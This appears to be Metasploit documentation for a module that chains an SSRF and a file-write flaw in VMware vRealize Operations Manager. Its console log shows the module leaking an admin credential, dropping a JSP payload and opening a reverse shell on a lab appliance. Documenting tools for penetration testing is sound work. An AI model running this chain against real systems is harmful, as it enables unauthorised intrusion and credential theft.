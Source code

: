 ## Vulnerable Application

### Description

This module exploits a pre-auth SSRF ([CVE-2021-21975]) and post-auth
file write ([CVE-2021-21983]) in VMware vRealize Operations Manager to
leak admin creds and write/execute a JSP payload.

CVE-2021-21975 affects the `/casa/nodes/thumbprints` endpoint, and
CVE-2021-21983 affects the `/casa/private/config/slice/ha/certificate`
endpoint. Code execution occurs as the `admin` Unix user.

The following vRealize Operations Manager versions are vulnerable:

* 7.0.0
* 7.5.0
* 8.0.0, 8.0.1
* 8.1.0, 8.1.1
* 8.2.0
* 8.3.0

Version 8.3.0 is not exploitable for creds and is therefore not
supported by this module. Tested against 8.0.1.

[CVE-2021-21975]: https://nvd.nist.gov/vuln/detail/CVE-2021-21975
[CVE-2021-21983]: https://nvd.nist.gov/vuln/detail/CVE-2021-21983

### Setup

Import an exploitable vRealize Operations Manager OVA, such as
[`vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova`], into
your desired hypervisor. Boot the virtual appliance, and it should be
exploitable out of the box once it's up.

[`vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova`]:
https://my.vmware.com/web/vmware/downloads/details?downloadGroup=VROPS-801&productId=940&rPId=40733

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`vRealize Operations Manager < 8.3.0`

## Scenarios

### vRealize Operations Manager 8.0.1

```
msf6 > use exploit/linux/http/vmware_vrops_mgr_ssrf_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > options

Module options (exploit/linux/http/vmware_vrops_mgr_ssrf_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8443             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   vRealize Operations Manager < 8.3.0


msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set rhosts 192.168.123.185
rhosts => 192.168.123.185
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Starting SSRF server...
[*] Using URL: https://0.0.0.0:8443/XtwOOPWn9SJ7
[*] Local IP: https://192.168.1.65:8443/XtwOOPWn9SJ7
[*] Executing automatic check (disable AutoCheck to override)
[*] Leaking admin creds via SSRF...
[*] 192.168.123.1:8443/XtwOOPWn9SJ7#
[*] 192.168.123.185 connected to SSRF server!
GET /XtwOOPWn9SJ7 HTTP/1.1
Accept: application/xml, application/json
Content-Type: application/json
Accept-Charset: big5, big5-hkscs, cesu-8, euc-jp, euc-kr, gb18030, gb2312, gbk, ibm-thai, ibm00858, ibm01140, ibm01141, ibm01142, ibm01143, ibm01144, ibm01145, ibm01146, ibm01147, ibm01148, ibm01149, ibm037, ibm1026, ibm1047, ibm273, ibm277, ibm278, ibm280, ibm284, ibm285, ibm290, ibm297, ibm420, ibm424, ibm437, ibm500, ibm775, ibm850, ibm852, ibm855, ibm857, ibm860, ibm861, ibm862, ibm863, ibm864, ibm865, ibm866, ibm868, ibm869, ibm870, ibm871, ibm918, iso-2022-cn, iso-2022-jp, iso-2022-jp-2, iso-2022-kr, iso-8859-1, iso-8859-13, iso-8859-15, iso-8859-2, iso-8859-3, iso-8859-4, iso-8859-5, iso-8859-6, iso-8859-7, iso-8859-8, iso-8859-9, jis_x0201, jis_x0212-1990, koi8-r, koi8-u, shift_jis, tis-620, us-ascii, utf-16, utf-16be, utf-16le, utf-32, utf-32be, utf-32le, utf-8, windows-1250, windows-1251, windows-1252, windows-1253, windows-1254, windows-1255, windows-1256, windows-1257, windows-1258, windows-31j, x-big5-hkscs-2001, x-big5-solaris, x-compound_text, x-euc-jp-linux, x-euc-tw, x-eucjp-open, x-ibm1006, x-ibm1025, x-ibm1046, x-ibm1097, x-ibm1098, x-ibm1112, x-ibm1122, x-ibm1123, x-ibm1124, x-ibm1166, x-ibm1364, x-ibm1381, x-ibm1383, x-ibm300, x-ibm33722, x-ibm737, x-ibm833, x-ibm834, x-ibm856, x-ibm874, x-ibm875, x-ibm921, x-ibm922, x-ibm930, x-ibm933, x-ibm935, x-ibm937, x-ibm939, x-ibm942, x-ibm942c, x-ibm943, x-ibm943c, x-ibm948, x-ibm949, x-ibm949c, x-ibm950, x-ibm964, x-ibm970, x-iscii91, x-iso-2022-cn-cns, x-iso-2022-cn-gb, x-iso-8859-11, x-jis0208, x-jisautodetect, x-johab, x-macarabic, x-maccentraleurope, x-maccroatian, x-maccyrillic, x-macdingbat, x-macgreek, x-machebrew, x-maciceland, x-macroman, x-macromania, x-macsymbol, x-macthai, x-macturkish, x-macukraine, x-ms932_0213, x-ms950-hkscs, x-ms950-hkscs-xp, x-mswin-936, x-pck, x-sjis_0213, x-utf-16le-bom, x-utf-32be-bom, x-utf-32le-bom, x-windows-50220, x-windows-50221, x-windows-874, x-windows-949, x-windows-950, x-windows-iso2022jp
X-VSCM-Request-Id: S30000FM
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_212
Host: 192.168.123.1:8443
Connection: keep-alive


[+] Successfully leaked admin creds
[*] Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
[+] The target is vulnerable.
[*] Writing JSP payload
[*] /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[*] https://192.168.123.185/casa/0DlEVqGWYr.jsp
[+] Successfully executed JSP payload
[+] Deleted /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.185:59260) at 2021-04-11 12:19:21 -0500
[*] Server stopped.

id
uid=1000(admin) gid=1003(admin) groups=1003(admin),0(root),25(apache),28(wheel)
uname -a
Linux vRealizeClusterNode 4.19.69-1.ph3 #1-photon SMP Fri Sep 6 00:00:41 UTC 2019 x86_64 GNU/Linux
```
